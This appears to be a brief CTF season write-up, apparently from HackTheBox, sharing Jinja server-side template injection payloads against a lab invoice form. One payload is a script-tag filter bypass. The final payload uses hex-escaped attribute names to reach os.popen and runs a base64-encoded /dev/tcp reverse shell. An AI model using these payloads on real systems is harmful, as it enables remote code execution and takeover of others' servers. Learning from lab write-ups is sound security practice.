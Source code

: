 ```yaml
---
title: "Season Summary"
date: 2024-08-21
---
```



Overall I learned a lot and these are some of my favorite snippets that i definitely will be keeping. SPOILERS REMOVED don't worry.

## SSTI With Jinja

Context: Obtaining Foothold using Server Side Template Injection with Jinja

I can see that I can by pass with this payload

```
invoice_id=&form_type=scannable_invoice&qr_link=https%3A%2F%2Fbruhaps.htb%2Fstatic%2Fqr_code%2Fqr_code_5868828307.png" {{'><script>;</script>'|safe}}
```

### Final SSTI Payload
```
invoice_id=&form_type=scannable_invoice&qr_link={% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo MDwmMTk2O2V4ZWMgMTk2PD4vZGV2L3RjcC8xMC4xMC4xNC43LzQ0NDQ7IC9iaW4vc2ggPCYxOTYgPiYxOTYgMj4mMTk2 | base64 -d | bash")["read"]() %} a {% endwith %}
```

